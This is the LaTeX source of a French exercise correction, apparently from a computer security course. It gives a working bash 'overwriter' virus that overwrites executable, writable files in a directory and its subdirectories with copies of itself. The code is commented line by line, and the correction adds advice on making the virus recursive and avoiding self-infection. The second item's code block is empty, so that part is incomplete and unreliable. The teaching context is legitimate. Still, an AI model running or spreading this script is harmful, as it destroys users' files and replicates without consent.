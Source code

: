 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item Le code suivant répond à la question.
On ne descend que d'un niveau dans les sous répertoires.
\begin{lstlisting}
#!/bin/bash

#Overwritter I
for file in *; do #pour tout fichier
    if [ -d $file ]; then # si on recontre un repertoire
       cd $file #on se positionne dans ce repertoire
       for file1 in *; do #pour tout fichier du repertoire
	   if [ -x $file1 -a -w $file1 ]; then
               cp "../$0" $file1 #ecraser le fichier cible par le virus
	   fi
       done
       cd ..
    fi
    echo $file
    name1=$(basename $0)
    name2=$(basename "./$file")
    echo "$name1 != $name2 ??"
    if [ "$name1" != "$name2" ]
    then
	echo "oui pour $name2"
	if [  -x $file -a -w $file ]; then
	    echo "cp $0 $file"
            cp $0 $file #ecraser le fichier cible par le virus
	fi
    fi
done
\end{lstlisting}

Si l'on souhaitait infecter la totalité de l'arborescence des fichiers du repertoire (sous-repertoires, sous-sous repertoires, etc), il faudrait faire une fonction recursive, la copie se ferait a partir du chemin absolu contenant le fichier infectant.

\begin{attention}
Le virus doit éviter de s'auto-infecter ! La comparaison \texttt{basename \$0 != basename ./\$file} est indispensable. Sans cette vérification, la commande \texttt{cp \$0 \$0} écraserait le virus par lui-même, ce qui pourrait le corrompre.
\end{attention}

\item  La technique utilisée ici est de rajouter la ligne \texttt{echo \"on rajoute des lignes\"} pour avoir le meme nombre de ligne que dans le fichier initial.


\begin{lstlisting}
#!/bin/bash


\end{lstlisting}
\end{enumerate}
\end{correction}
\end{document}
